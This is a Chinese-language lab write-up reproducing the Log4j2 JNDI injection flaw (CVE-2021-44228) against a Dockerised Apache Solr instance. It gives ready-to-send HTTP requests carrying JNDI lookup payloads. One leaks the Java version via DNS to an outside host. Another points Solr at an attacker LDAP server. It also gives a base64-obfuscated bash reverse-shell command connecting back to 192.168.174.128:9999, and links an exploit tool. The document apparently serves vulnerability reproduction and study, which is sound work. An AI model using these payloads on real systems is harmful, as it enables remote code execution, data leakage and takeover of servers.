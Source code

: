 # Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

![image-20220305220532335](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052205527.png)

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![image-20220305220601719](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052206769.png)

实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。

![image-20220305223436251](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052234596.png)

利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：

![image-20220305223503054](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235135.png)

### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```

![image-20220305223522125](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235402.png)

构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

![image-20220305223552171](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235323.png)